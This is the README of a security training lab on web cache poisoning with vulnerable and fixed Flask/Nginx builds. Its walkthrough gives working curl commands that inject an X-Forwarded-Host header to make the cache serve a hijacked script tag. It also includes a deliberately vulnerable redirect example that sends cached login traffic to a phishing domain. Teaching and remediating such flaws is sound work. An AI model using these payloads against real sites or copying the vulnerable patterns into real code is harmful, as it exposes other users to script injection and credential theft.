

# Web Exploitation Lab — Web Cache Poisoning

A realistic DevSecOps-focused lab demonstrating **Web Cache Poisoning** using a containerized environment running Nginx as a reverse proxy cache and a Flask-based backend web application.

This lab ships two builds:
- **vulnerable**: Nginx caching enabled, caching responses based on request URI (ignoring `X-Forwarded-Host`), while the Flask app dynamically generates absolute URLs for critical scripts using `X-Forwarded-Host`.
- **fixed**: The Flask app uses secure relative paths for script inclusion, and Nginx strips untrusted header inputs at the reverse proxy boundary.

---

## Lab Overview

Web Cache Poisoning is an advanced attack vector where an attacker exploits the behavior of a web cache to serve harmful, cached responses to subsequent users. By manipulating an **unkeyed input** (such as HTTP headers that are not part of the cache key but are used by the application to generate responses), the attacker forces the cache to store a modified response. 

In this lab, you will explore a SaaS telemetry dashboard (`ApexAnalytics`) that utilizes an Nginx reverse proxy cache to speed up delivery. You will exploit this setup to inject a malicious script (simulated Stored XSS) into the cached main page, affecting subsequent users who visit the website.

---

## Learning Objectives

- **Identify Keyed vs. Unkeyed Inputs**: Understand the difference between parameters that determine cache matching (keyed) and those that do not (unkeyed).
- **Understand Cache Behavior**: Observe cache states (`MISS`, `HIT`) and header manipulation (`X-Cache-Status`).
- **Exploit HTTP Header Mismatch**: Poison the cache by injecting `X-Forwarded-Host` to force loading external payloads.
- **Implement Secure Caching**: Remediate the issue using safe relative paths and stripping untrusted inputs at the proxy boundary.

---

## Vulnerability Explanation

Caching proxies improve web performance by saving local copies of server responses. To determine if two requests are for the identical resource, the cache generates a **Cache Key** (typically composed of the request line and the `Host` header). 

Any part of the request that does *not* participate in generating the Cache Key is called an **unkeyed input**. If the backend application uses an unkeyed input (such as `X-Forwarded-Host`) to construct parts of the HTML page, and Nginx saves that response, the cache is poisoned.




---

## Architecture Overview

Both builds run a dual-process stack inside a single Docker container to simplify local deployment and execution:
- **Nginx (Reverse Proxy & Cache)**: Listens on port `8080` (internally). Caches response codes of `200 OK` for 60 seconds.
- **Flask Application (Backend)**: Listens on port `5000` (localhost only). Serves the dashboard page, benign static assets, and an attacker simulator route (`/poison`).

```
web-exploitation-cache-poisoning/
  README.md
  probe_cache_poisoning.sh
  vulnerable/
    Dockerfile
    entrypoint.sh
    nginx.conf
    requirements.txt
    app.py
  fixed/
    Dockerfile
    entrypoint.sh
    nginx.conf
    requirements.txt
    app.py
```

---

## Setup Instructions

### Run from GHCR

Images are published to GHCR by the workflow in this repo. `docker run` will pull automatically if needed.

```bash
# Run vulnerable build (accessible on http://127.0.0.1:8080)
docker run --rm -it \
  --name cache-poisoning-vuln \
  -p 8080:8080 \
  ghcr.io/debaa17/cybersecurity-labs/flask-cache-poisoning:vuln

# Run fixed build (accessible on http://127.0.0.1:8081)
docker run --rm -it \
  --name cache-poisoning-fixed \
  -p 8081:8080 \
  ghcr.io/debaa17/cybersecurity-labs/flask-cache-poisoning:fixed
```

---

### Build Images (Local Build)

From this directory:

```bash
cd labs/web-exploitation-cache-poisoning

# Build vulnerable image
docker build -t cyberlabs/cache-poisoning:vuln -f vulnerable/Dockerfile vulnerable

# Build fixed image
docker build -t cyberlabs/cache-poisoning:fixed -f fixed/Dockerfile fixed
```

### Run Containers (Local Build)

```bash
# Run vulnerable build (accessible on http://127.0.0.1:8080)
docker run --rm -it \
  --name cache-poisoning-vuln \
  -p 8080:8080 \
  cyberlabs/cache-poisoning:vuln

# Run fixed build (accessible on http://127.0.0.1:8081)
docker run --rm -it \
  --name cache-poisoning-fixed \
  -p 8081:8080 \
  cyberlabs/cache-poisoning:fixed
```


---

## Exploitation Walkthrough

> [!IMPORTANT]
> To simulate an attacker hosting a malicious payload locally without requiring separate servers, the Flask backend includes an attacker script simulator on the `/poison` endpoint.

### Step 1: Observe Baseline Cache Behavior

> [!NOTE]
> * `curl -I` (capital I): Sends a `HEAD` request to fetch **response headers only** (useful for checking cache status headers without cluttering the screen).
> * `curl -i` (lowercase i): Sends a `GET` request to fetch **both response headers and the HTML body** (required to verify the actual script tag changes in the HTML body).

1. Fetch only the headers from the homepage to check the cache status. Notice the `X-Cache-Status` response header:
   ```bash
   curl -I http://127.0.0.1:8080/
   ```
   *Expected Header*: `X-Cache-Status: MISS` (first request fetched from backend).

2. Request only the headers again to confirm Nginx is caching the resource:
   ```bash
   curl -I http://127.0.0.1:8080/
   ```
   *Expected Header*: `X-Cache-Status: HIT` (served from Nginx's cache).

3. Request both headers and the HTML body to examine the script import source:
   ```bash
   curl -i http://127.0.0.1:8080/
   ```
   *Expected Script tag in body*:
   ```html
   <script src="//127.0.0.1:8080/static/js/tracking.js"></script>
   ```

### Step 2: Poison the Cache

To poison the cache, Nginx needs to request a fresh page from the backend and overwrite the cache entry. We force this by passing the header `X-Bypass-Cache: 1` (configured via Nginx's `proxy_cache_bypass` directive).

At the same time, we inject `X-Forwarded-Host: 127.0.0.1:8080/poison?` to hijack the script generation:

```bash
curl -i -H "X-Forwarded-Host: 127.0.0.1:8080/poison?" -H "X-Bypass-Cache: 1" http://127.0.0.1:8080/
```

*Explanation of the payload*:
- `X-Forwarded-Host: 127.0.0.1:8080/poison?` replaces the host inside the script tag.
- The trailing `?` turns the original static path into a harmless query string parameter: `//127.0.0.1:8080/poison?/static/js/tracking.js`.
- The browser will now attempt to load the script from the attacker-controlled endpoint `/poison` on our server instead of the benign static file.

### Step 3: Verify Poisoning (Victim View)

Now request the page as a regular victim, with **no special headers**. 

1. First, check that the headers return a cache `HIT`:
   ```bash
   curl -I http://127.0.0.1:8080/
   ```
   *Expected Header*: `X-Cache-Status: HIT`

2. Next, check both headers and body to verify the poisoned script tag:
   ```bash
   curl -i http://127.0.0.1:8080/
   ```
   - Observe the response header: `X-Cache-Status: HIT`
   - Observe the poisoned script source in the HTML:
     ```html
     <script src="//127.0.0.1:8080/poison?/static/js/tracking.js"></script>
     ```


### Step 4: Visual Confirmation in the Browser

1. Open a browser and navigate to `http://127.0.0.1:8080/`.
2. Notice the large red banner across the top of the interface:
   **🚨 CACHE POISONED SUCCESS! Loaded Malicious Script. Flag: FLAG{web_cache_poison_x_forwarded_host_success}**
3. Review the **Telemetry Asset Loader Logs** console on the page to see the hijacking entry.

---

## Verification Steps (Script)

You can also run the automated verification script:

```bash
chmod +x probe_cache_poisoning.sh
./probe_cache_poisoning.sh
```

---

## Can We Redirect to Another Domain?

Yes! Web Cache Poisoning is not limited to script injection (Stored XSS). Another extremely common and high-impact variant is **Cache Poisoning Redirection**.

If the backend application dynamically constructs redirect targets using unkeyed headers (like `X-Forwarded-Host` or `X-Forwarded-Scheme`), an attacker can force the cache to store a redirect response (`301 Moved Permanently` or `302 Found`) pointing to a malicious external site.

### Scenario:
Imagine the backend has a route for user logins:
```python
@app.route('/login')
def login_redirect():
    # Vulnerable: uses X-Forwarded-Host to build the redirect target URL
    host = request.headers.get('X-Forwarded-Host', request.host)
    return redirect(f"http://{host}/login/oauth")
```

If Nginx is caching this endpoint, the attacker can send:
```http
GET /login HTTP/1.1
Host: original-app.com
X-Forwarded-Host: phishing-site.com
X-Bypass-Cache: 1
```

The backend server returns:
```http
HTTP/1.1 302 Found
Location: http://phishing-site.com/login/oauth
```

Nginx caches this redirect response under the cache key representing `/login`. 

When any legitimate victim subsequently clicks "Login" or accesses `/login`, Nginx serves them the cached redirect response from its cache, sending them straight to `phishing-site.com` where their login credentials could be harvested via phishing.

---

## Root Cause Analysis


### Vulnerable Code (`vulnerable/app.py`)

The application trusts the `X-Forwarded-Host` HTTP header to generate URLs dynamically:

```python
forwarded_host = request.headers.get('X-Forwarded-Host')
if forwarded_host:
    host = forwarded_host
else:
    host = request.host

# HTML template dynamic script inclusion
# <script src="//{{ host_to_use }}/static/js/tracking.js"></script>
```

### Vulnerable Nginx Cache Configuration (`vulnerable/nginx.conf`)

Nginx forwards the `X-Forwarded-Host` header to Flask, but the cache key remains strictly set to `$scheme$request_uri`:

```nginx
proxy_set_header X-Forwarded-Host $http_x_forwarded_host;

# Cache Key doesn't vary by X-Forwarded-Host!
proxy_cache_key "$scheme$request_uri";
```

Because Nginx uses the exact same cache key for requests with and without `X-Forwarded-Host`, the poisoned response from the attacker overwrites the clean entry and is served to everyone.

---

## Remediation Explanation

### 1. Secure Resource Referencing (Relative Paths)
The safest mitigation is using relative paths for internal resources, completely eliminating trust in incoming headers:

```diff
- <script src="//{{ host_to_use }}/static/js/tracking.js"></script>
+ <script src="/static/js/tracking.js"></script>
```

### 2. Header Strip at Proxy Boundary
If the backend does not require headers like `X-Forwarded-Host`, strip them at Nginx:

```nginx
# inside fixed/nginx.conf
proxy_set_header X-Forwarded-Host "";
```

---

## Expected Results

### Vulnerable Build (`http://127.0.0.1:8080/`)
- Injecting `X-Forwarded-Host` poisons the cache.
- Visitors receive a `HIT` with hijacked scripts, displaying a red alert banner.

### Fixed Build (`http://127.0.0.1:8081/`)
- Running the exploit returns the page safely.
- Subsequent visitors receive the safe page. The cache is not poisoned.

---

## Key Security Takeaways

1. **Never Trust Unkeyed Inputs**: Never allow headers outside the cache key to dynamically construct URLs or influence critical page structures.
2. **Prefer Relative URLs**: Always reference static scripts using relative URLs.
3. **Normalize and Clean Headers**: Ensure reverse proxies strip unused headers before requests reach backend systems.
4. **Use Safe Cache Keys**: If headers must influence content, they must be part of the cache key (e.g., via `Vary` header or modified `proxy_cache_key`).
